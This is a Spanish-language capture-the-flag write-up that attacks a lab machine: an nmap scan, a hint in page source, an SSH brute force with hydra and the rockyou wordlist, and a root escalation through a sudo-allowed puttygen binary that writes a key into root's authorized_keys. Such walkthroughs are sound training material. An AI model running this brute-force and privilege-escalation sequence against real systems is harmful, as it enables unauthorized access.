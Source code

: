 # Fase 1- Tanteo
![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/11c8a045-fd02-4e7c-9f85-1d77244e2436)
En esta fase inicial, realizamos un escaneo de puertos para identificar los servicios disponibles en la máquina objetivo. Utilizamos la herramienta Nmap con una serie de opciones para obtener información detallada y realizar un análisis exhaustivo de los puertos abiertos.
### Comando Nmap utilizado:

`sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`

### Detalles del Comando:

- `sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sC`: Activa detección de versiones y vulnerabilidades.
- `-sV`: Escaneo de versiones de servicios.
- `--min-rate 5000`: Velocidad mínima de escaneo.
- `-vvv`: Verbosidad muy alta para información detallada.
- `-n`: Desactiva la resolución de DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `192.168.52.139`: IP de la máquina objetivo.
- `-oN Escaneo`: Guarda resultados en archivo "Escaneo".

### Resultados:

#### Puertos Abiertos:

2.  **22/tcp(SSH):** OpenSSH 9.2p1 
3. **80/tcp(HTTP):** Apache httpd 2.4.57

### Puerto 80
Al identificar que el puerto 80 estaba abierto durante el escaneo, se procedió a ingresar la dirección IP en el navegador. Se encontró la pagina default de Debian Apache2.
![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/0ea8fd93-91e0-4af0-a603-037d2a38015c)

# Fase 2- Exploración

#### Codigo
![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/7af9032e-fe65-4173-8f48-ca9086db8b2d)

En el codigo fuente de la pagina, nos encontramos un mensaje que dice `Cambia la contraseña de ssh por favor melanie`.

# Fase 3- Explotación

#### Hydra
Realizamos fuerza bruta al protocolo ssh al usuario `melanie` con el diccionario `rockyou`. Comando utilizado:
```python
hydra -l melanie -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.3 -F
```
![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/2ebce5b6-1a57-4889-a24c-9b50b07b664e)
Y nos encontró la contraseña: `trustno1`.

# Fase 4- Privilegios

#### Sudo -l
![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/ee0e7f7a-7315-4da9-9ced-92eae6c66b1f)

Despues de ingresar y realizar el tratamiento de la TTY, vemos que podemos ejecutar el binario `puttygen` como usuario `root`.

#### puttygen
Puttygen se utiliza específicamente para generar claves SSH. Vamos a generar una clave para el usuario root. Los comandos utilizados para escalar fueron:
```python
> puttygen -t rsa -b 2048 -O private-openssh -o ~/.ssh/id
> puttygen -L ~/.ssh/id >> ~/.ssh/authorized_keys
> sudo puttygen /home/melanie/.ssh/id -o /root/.ssh/id
> sudo puttygen /home/melanie/.ssh/id -o /root/.ssh/authorized_keys -O public-openssh
> scp melanie@192.168.1.3:/home/melanie/.ssh/id .
> ssh -i id root@192.168.1.3
```
Primero, se genera una nueva clave SSH RSA de 2048 bits y se guarda como `~/.ssh/id`. Luego, se extrae la clave pública de este archivo y se añade al final de `~/.ssh/authorized_keys` para permitir la autenticación remota. La clave privada también se copia a un directorio seguro (`/root/.ssh/`), y la clave pública se exporta en formato OpenSSH a `/root/.ssh/authorized_keys` para permitir la autenticación desde otros sistemas. Adicionalmente, se copia la clave privada desde un servidor remoto a tu máquina local usando `scp`. Finalmente, para conectarte a un servidor remoto, usas la clave privada específica (`id`) con `ssh -i id root@192.168.1.3`.

![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/2305106f-f622-46b4-8648-9293ceac4abe)

y de esa forma somos root!.
